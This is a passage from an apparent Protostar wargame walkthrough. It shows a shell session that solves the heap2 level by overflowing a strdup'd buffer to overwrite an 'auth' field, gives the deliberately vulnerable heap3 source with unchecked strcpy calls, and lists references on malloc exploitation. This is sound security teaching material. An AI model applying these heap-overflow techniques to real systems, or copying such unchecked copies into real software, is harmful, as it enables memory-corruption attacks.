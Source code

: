 We can write multiple "1"'s to the heap-allocated buffer with `strdup` that
will eventually overwrite the original struct's `auth` member. This level is
simple enough that we don't need to be very precise about what or how many
bytes we write with `strdup()`.

```shell
user@protostar:~$ /opt/protostar/bin/heap2
[ auth = (nil), service = (nil) ]
auth AAAA
[ auth = 0x804c008, service = (nil) ]
reset
[ auth = 0x804c008, service = (nil) ]
service 111111111111111111111111111111111111
[ auth = 0x804c008, service = 0x804c018 ]
login
you have logged in already!
[ auth = 0x804c008, service = 0x804c018 ]
```

# heap 3

We are given the below source code.

```c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

void winner()
{
  printf("that wasn't too bad now, was it? @ %d\n", time(NULL));
}

int main(int argc, char **argv)
{
  char *a, *b, *c;

  a = malloc(32);
  b = malloc(32);
  c = malloc(32);

  strcpy(a, argv[1]);
  strcpy(b, argv[2]);
  strcpy(c, argv[3]);

  free(c);
  free(b);
  free(a);

  printf("dynamite failed?\n");
}
```


[exploit-exercises]: https://exploit-exercises.com
[protostar-stack-writeup]: 2018-05-22-protostar-walkthrough-stack
[protostar-format-writeup]: 2018-05-27-protostar-walkthrough-format
[dlmalloc]: http://g.oswego.edu/dl/html/malloc.html
[glibc-malloc-internals]: https://sourceware.org/glibc/wiki/MallocInternals
[understanding-the-heap]: https://www.blackhat.com/presentations/bh-usa-07/Ferguson/Whitepaper/bh-usa-07-ferguson-WP.pdf
[phrack-vudo]: http://phrack.org/issues/57/8.html
[once-upon-a-free]: http://phrack.org/issues/57/9.html
[advanced-dlmalloc-exploits]: http://phrack.org/issues/61/6.html
[malloc-maleficarum]: https://dl.packetstormsecurity.net/papers/attack/MallocMaleficarum.txt
[malloc-des-maleficarum]: http://phrack.org/issues/66/10.html
[how2heap]: https://github.com/shellphish/how2heap